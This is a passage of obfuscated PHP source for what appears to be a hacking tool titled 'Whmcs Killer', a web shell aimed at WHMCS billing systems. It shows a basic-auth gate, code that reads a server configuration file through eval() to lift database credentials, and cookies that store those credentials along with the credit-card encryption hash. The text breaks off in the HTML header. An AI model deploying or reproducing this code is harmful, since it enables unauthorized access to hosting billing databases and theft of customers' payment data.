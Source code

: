 randomt(){${"GLOBALS"}["qjopxdde"]="chars";$ocogqosnpg="i";${${"GLOBALS"}["qjopxdde"]}="abcdefghijkmnopqrstuvwxyz023456789";srand((double)microtime()*1000000);${$ocogqosnpg}=0;${"GLOBALS"}["vgvxzgwgoz"]="pass";${"GLOBALS"}["phxcbeye"]="pass";${${"GLOBALS"}["vgvxzgwgoz"]}="";${"GLOBALS"}["hiotmkubrpy"]="i";while(${${"GLOBALS"}["hiotmkubrpy"]}<=7){${"GLOBALS"}["hokofpotyvo"]="num";$sqxafipfif="pass";${"GLOBALS"}["vteovuv"]="pass";${${"GLOBALS"}["pkmsovcmei"]}=rand()%33;${${"GLOBALS"}["cmcxsafpiqis"]}=substr(${${"GLOBALS"}["xuonyuepno"]},${${"GLOBALS"}["hokofpotyvo"]},1);$rbkyed="i";${${"GLOBALS"}["vteovuv"]}=${$sqxafipfif}.${${"GLOBALS"}["cmcxsafpiqis"]};${$rbkyed}++;}return${${"GLOBALS"}["phxcbeye"]};}${"GLOBALS"}["hwljnvbefa"]="fieldnum";${"GLOBALS"}["tnpgxkuqfmi"]="row";$xtclfqyirsu="qq";${"GLOBALS"}["lzymhfcjh"]="address1";${"GLOBALS"}["ikzegshuub"]="total_pages";${"GLOBALS"}["dkwmatbtxg"]="pass";${"GLOBALS"}["gcxuyplbilvy"]="query";$civmqlvwy="query";${"GLOBALS"}["bbbwyjm"]="query1";$reugtwyli="db_username";${"GLOBALS"}["moukxffcs"]="total_records";$zwpqoyuvvlqh="i";${"GLOBALS"}["weufxkdwhjrs"]="query2";${"GLOBALS"}["xofppepvt"]="page";${"GLOBALS"}["ilxjyxzqt"]="p";${"GLOBALS"}["yxqmufxnqcs"]="total_pages";${"GLOBALS"}["niecnejwfmy"]="db_host";$sbesjbau="v";${"GLOBALS"}["oopdhffk"]="tables";$hjguhcqx="db_name";@set_time_limit(0);${"GLOBALS"}["dseenyxe"]="total_records";${"GLOBALS"}["dteeutx"]="auth";${"GLOBALS"}["nyemdrab"]="list_tid0";${"GLOBALS"}["cxojuijvhke"]="db_username";${"GLOBALS"}["kolgoqf"]="db_name";${"GLOBALS"}["movmxrodnm"]="qq";${"GLOBALS"}["kpnorw"]="value";$pobdlt="q";${"GLOBALS"}["bbxvsr"]="tryChaningInfo";${"GLOBALS"}["trfxekei"]="p";${"GLOBALS"}["ddkjqvygne"]="send";${"GLOBALS"}["ypirnrygq"]="qq";$hajeir="i";${"GLOBALS"}["apfvsegdq"]="vv";${"GLOBALS"}["aoxjiv"]="tryChaning";${"GLOBALS"}["holppdzxh"]="s";${"GLOBALS"}["iwgkwzxog"]="i";$rbfnqunecwtk="total_pages";$ihbmai="link";${"GLOBALS"}["oygtthj"]="file";${"GLOBALS"}["ytcwncufygm"]="header";ob_start();${"GLOBALS"}["kqkvclxesp"]="query";${"GLOBALS"}["ohkgnmv"]="page";${"GLOBALS"}["wexrijbytls"]="page";${"GLOBALS"}["mjjavslk"]="do";${"GLOBALS"}["wxlvsayvl"]="qq";${"GLOBALS"}["jeodtgliqnwo"]="userfile_tmp";${"GLOBALS"}["whicxj"]="type";${"GLOBALS"}["mteueri"]="db_host";${"GLOBALS"}["wbnblpaukq"]="qq";$yjgqlxkqqz="q";$dxupbio="q";${"GLOBALS"}["rmldtskxf"]="cchash";$fbmootfzyeep="page";$limtvyhy="total_pages";$puuuunsn="q";${"GLOBALS"}["oskifgm"]="qq";$xiqynvwsuo="total_records";$dxmuqhwqetns="q";$wvlbje="total_pages";${"GLOBALS"}["nlybchj"]="v";$khumirs="qq";${"GLOBALS"}["bxhhgvfowce"]="qq";${"GLOBALS"}["yhrlspt"]="total_records";${"GLOBALS"}["alisvlov"]="text";$iplyknyqxey="total_records";${"GLOBALS"}["xpgcpicbvk"]="textr";$gpttvqv="list_tid";$gvscbgvs="db_password";${"GLOBALS"}["qrqqqxofvpz"]="i";${"GLOBALS"}["qnganuhfwtyh"]="v2";${"GLOBALS"}["mjocwvv"]="list_tid";${"GLOBALS"}["vbpmgiycm"]="link";if(${${"GLOBALS"}["dteeutx"]}==1){${"GLOBALS"}["tiedgiweki"]="user";if(!isset($_SERVER["PHP_AUTH_USER"])||md5($_SERVER["PHP_AUTH_USER"])!==${${"GLOBALS"}["tiedgiweki"]}||md5($_SERVER["PHP_AUTH_PW"])!==${${"GLOBALS"}["dkwmatbtxg"]}){header("WWW-Authenticate: Basic realm="Powered By RAB3OUN"");header("HTTP/1.0 401 Unauthorized");exit("Go To Hell");}}${"GLOBALS"}["zcnueceb"]="maxfile";${"GLOBALS"}["hheigfnepd"]="sql";${"GLOBALS"}["oeqezxoxcmbb"]="result";${"GLOBALS"}["eswkbw"]="q";${"GLOBALS"}["uoocmhnsd"]="j";$gmzdecbl="db_password";${"GLOBALS"}["qhwgnda"]="db_name";${"GLOBALS"}["thqwfrhoxyo"]="db_host";${${"GLOBALS"}["ilxjyxzqt"]}=$_GET["p"];${"GLOBALS"}["dlsibicfnkg"]="size";$hejvwrlzvigz="p";if($_POST["form_action"]==1){setcookie("db_host",$_POST["db_host"]);setcookie("db_username",$_POST["db_username"]);setcookie("db_password",$_POST["db_password"]);setcookie("db_name",$_POST["db_name"]);setcookie("login","1");setcookie("cc_encryption_hash",$_POST["cc_encryption_hash"]);echo"<h1>Done : Connection Successfully
        </h1>";echo("     <meta http-equiv='refresh' content='1;URL=?p=103' />");}${"GLOBALS"}["sqgchrxwl"]="v";$gunsnlwfq="qq";${"GLOBALS"}["vhfscebilj"]="qq";${"GLOBALS"}["wxalvnqtzz"]="td";${"GLOBALS"}["wwepbwx"]="start_from";if($_POST["form_action"]==2){${"GLOBALS"}["ifzpodgacs"]="file";$ccizbxtrdbth="text";${"GLOBALS"}["fvmxiwaic"]="db_password";$hmsqvjrxovj="text";$qqbvtofmqj="text";${${"GLOBALS"}["ifzpodgacs"]}=($_POST["file"]);${$ccizbxtrdbth}=file_get_contents(${${"GLOBALS"}["oygtthj"]});$bsnnhjp="text";$zchejkumx="db_host";${${"GLOBALS"}["alisvlov"]}=str_replace("<?php","",${${"GLOBALS"}["alisvlov"]});${$bsnnhjp}=str_replace("<?","",${$hmsqvjrxovj});${${"GLOBALS"}["alisvlov"]}=str_replace("?>","",${$qqbvtofmqj});eval(${${"GLOBALS"}["alisvlov"]});setcookie("db_host",${$zchejkumx});setcookie("db_username",${${"GLOBALS"}["cxojuijvhke"]});setcookie("db_password",${${"GLOBALS"}["fvmxiwaic"]});setcookie("db_name",${${"GLOBALS"}["qhwgnda"]});setcookie("login","1");setcookie("cc_encryption_hash",${${"GLOBALS"}["datzsblhzhf"]});echo"Done : Connection Successfully
        ";echo("     <meta http-equiv='refresh' content='1;URL=?p=103' />");}${"GLOBALS"}["vpvulpll"]="total_records";${${"GLOBALS"}["ytcwncufygm"]}="<html>
<title>Whmcs Killer Coded by RAB3OUN</title>
<head>
<style>

body
{
	background: #0f0e0d;
	color: #FF9933;

	padding: 0px;

}